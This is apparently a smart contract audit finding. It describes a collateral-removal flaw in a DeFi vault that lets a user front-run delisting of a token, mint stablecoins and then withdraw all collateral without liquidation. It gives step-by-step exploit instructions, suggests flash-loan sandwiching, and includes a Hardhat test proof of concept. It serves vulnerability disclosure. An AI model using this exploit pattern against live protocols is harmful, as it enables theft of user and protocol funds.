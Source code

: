 Moreover, informed users can exploit this flaw in the following way:

- User A, anticipating the removal of Token X from the list of accepted collateral, mints a substantial amount of tokens using Token X as collateral.
- The protocol proceeds to remove Token X from the list of accepted collateral.
- Following this removal, User A's position becomes undercollateralized. However, due to the nature of the vulnerability, this under collateralization does not trigger the usual liquidation process, leaving User A's collateral unaffected.
- User A then calls the **removeAsset** function to withdraw all of their Token X collateral from the position.

Note: A flash loan can be used to sandwich the removal call to maximize the exploit.

## Proof Of Concept

```jsx
it("User front run removal of token to borrow a large amount of tokens for free", async () => {
  // set up
  const SUSD18 = await (
    await ethers.getContractFactory("ERC20Mock")
  ).deploy("sUSD18", "SUSD18", 18);
  const ClUsdUsd = await (
    await ethers.getContractFactory("ChainlinkMock")
  ).deploy("USD / USD");
  await ClUsdUsd.setPrice(100000000);
  await TokenManager.addAcceptedToken(SUSD18.address, ClUsdUsd.address);
  const SUSD18value = ethers.utils.parseEther("1000");

  // user flashloans and transfers 1000 SUSD18 to vault
  await SUSD18.mint(Vault.address, SUSD18value);
  // minting value
  const mintedValue = ethers.utils.parseEther("500");
  // minting fee
  const mintingFee = mintedValue.mul(PROTOCOL_FEE_RATE).div(HUNDRED_PC);
  // user mints 500 EUROs
  await expect(Vault.connect(user).mint(user.address, mintedValue)).not.to.be
    .reverted;
  // token manager removes asset from accepted tokens
  await TokenManager.removeAcceptedToken(
    "0x5355534431380000000000000000000000000000000000000000000000000000" // SUSD18
  );
  // user removes all collateral from vault (pay back flash loan) bypassing check because token no longer part of accepted tokens
  await expect(
    Vault.connect(user).removeAsset(SUSD18.address, SUSD18value, user.address)
  ).not.to.be.reverted;
  // check balance of vault collateral
  expect(await SUSD18.balanceOf(Vault.address)).to.equal(0);
  // check amount minted
  const { minted } = await Vault.status();
  // minted is equal to mintedValue + mintingFee
  expect(minted).to.equal(mintedValue.add(mintingFee));
});
```
